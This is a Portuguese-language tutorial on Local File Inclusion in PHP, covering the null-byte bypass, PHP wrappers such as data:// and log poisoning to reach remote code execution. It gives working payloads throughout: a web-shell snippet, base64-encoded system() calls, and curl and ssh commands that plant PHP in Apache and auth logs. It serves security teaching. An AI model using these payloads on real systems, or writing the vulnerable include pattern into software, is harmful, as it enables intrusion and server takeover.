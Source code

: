 # LFI - Local File Inclusion

Essa vulnerabilidade ocorre quando a aplicação permite que o usuário inclua algum arquivo. Vamos supor que no código fonte há um include que pega por parâmetro via GET e inclui esse arquivo.

```
include($_GET['file']);
```

## De LFI a RCE - Infecção de Logs

Uma vez que conseguimos visualizar arquivos do lado do servidor, podemos aproveitar disso para conseguir uma RCE através da leitura dos arquivos de logs infectando o mesmo com algum código malicioso.

Podemos então enviar uma requisição para o servidor (caso a aplicação seja em php) da seguinte forma:

```
http://vuln.app/<?php system($_GET['shell']); ?>
```

Com isso, ao lermos o arquivo de log, podemos ver o código que inserimos. Como estamos através do LFI, e essa página interpreta o PHP, ele encontra o nosso código em PHP no log e tenta executar o comando que enviamos.

## PHP Wrappers

PHP Wrappers allows users to interact with various i/o streams including file io. It can be used to get content of a file preventing the server from executing it.

* [file://](https://www.php.net/manual/en/wrappers.file.php) — Accessing local filesystem
* [http://](https://www.php.net/manual/en/wrappers.http.php) — Accessing HTTP(s) URLs
* [ftp://](https://www.php.net/manual/en/wrappers.ftp.php) — Accessing FTP(s) URLs
* [php://](https://www.php.net/manual/en/wrappers.php.php) — Accessing various I/O streams
* [zlib://](https://www.php.net/manual/en/wrappers.compression.php) — Compression Streams
* [data://](https://www.php.net/manual/en/wrappers.data.php) — Data (RFC 2397)
* [glob://](https://www.php.net/manual/en/wrappers.glob.php) — Find pathnames matching pattern
* [phar://](https://www.php.net/manual/en/wrappers.phar.php) — PHP Archive
* [ssh2://](https://www.php.net/manual/en/wrappers.ssh2.php) — Secure Shell 2
* [rar://](https://www.php.net/manual/en/wrappers.rar.php) — RAR
* [ogg://](https://www.php.net/manual/en/wrappers.audio.php) — Audio streams
* [expect://](https://www.php.net/manual/en/wrappers.expect.php) — Process Interaction Streams

Em aplicações mais antigas onde é adicionado uma extensão no final do arquivo, podemos fazer o bypass adicionando o null byte `%00` para burlarmos essa extensão e visualizar o arquivo. Porém em aplicações mais modernas isso não é possível, nesse caso podemos em aplicações PHP utilizar o PHP Wrapper para lidarmos com essa situação.

Vamos pegar esse exemplo dessa aplicação que adiciona a extensão `.php` no final do arquivo que é passado pelo parâmetro `page`. Se passarmos o parâmetro `test`, irá ficar dessa forma:

<figure><img src="../.gitbook/assets/lfi-1.png" alt=""><figcaption></figcaption></figure>

Agora, utilizando o PHP Wrapper `data://`, conseguimos burlar isso:

<figure><img src="../.gitbook/assets/lfi-2.png" alt=""><figcaption></figcaption></figure>

Podemos também encodar em base64:

```
$ echo -n "test" | base64 
dGVzdA==
```

<figure><img src="../.gitbook/assets/lfi-3.png" alt=""><figcaption></figcaption></figure>

Com isso, nós conseguimos também executar comandos do sistema operacional:

```
$ echo -n "<?php system('id'); ?>" | base64
PD9waHAgc3lzdGVtKCdpZCcpOyA/Pg==
```

<figure><img src="../.gitbook/assets/lfi-4.png" alt=""><figcaption></figcaption></figure>

https://medium.com/@zoningxtr/mastering-php-wrappers-concepts-use-cases-and-security-risks-380bb59cb6c1

## Log Poisoning

Podemos utilizar uma técnica chamada Log poisoning para conseguir um RCE através dos logs infectados que serão lidos pelo LFI.

Podemos tentar infectar o log do apache, enviando um código php para a página interpretar esse código e ser executado.

```
$ curl <target> -H "User-Agent: <?php system('ls');?>"
```

Depois, verificamos no arquivo de log, que fica em `/var/log/apache2/access.log` (baseadas em debian e ubuntu).

Podemos também infectar o log do ssh, enviando dessa forma e depois lendo o arquivo `/var/log/auth.log`.

```
$ ssh -l '<?php system("id");?>' <target>
```

